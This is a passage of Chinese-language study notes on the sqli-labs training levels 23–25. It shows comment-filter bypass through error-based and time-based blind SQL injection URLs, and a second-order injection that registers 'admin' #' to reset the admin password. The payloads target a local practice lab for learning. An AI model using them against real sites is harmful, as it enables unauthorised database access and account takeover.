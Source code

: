 1. Cookie 注入中，Cookie 被编码（base64），因此注入语句也要进行编码。

## 13. Less-23（注释符过滤）

1. 当注释符被过滤时（例如 `#`，`-- -` 等），此时需要构造 `and/or '1'='1'` 这种语句来闭合符号。

2. 例如（这题有错误回显，因此使用报错注入）：

    `http://localhost/sql/Less-23/?id=1' and updatexml(1, concat(0x7e, (select database()), 0x7e), 1) and '1'='1`

    时间盲注如下：

    `http://localhost/sql/Less-23/?id=1' and if(ascii(left((select database()), 1)) = 115, sleep(5), null) and '1'='1`

3. 结果如下：

    ![image-20220408154545455](SQL注入.assets/image-20220408154545455.png)


## 14. Less-24（二次注入）

1. 先注册账号 `admin' #`，登录进去后进入修改密码界面，修改密码后，由于数据库更新密码的语句为：

    `UPDATE users SET passwd="New_Pass" WHERE username='admin' #' AND password='current_pass'`

    这样就会修改掉 admin 的密码，从而完成二次注入。

## 15. Less-25（过滤一次）
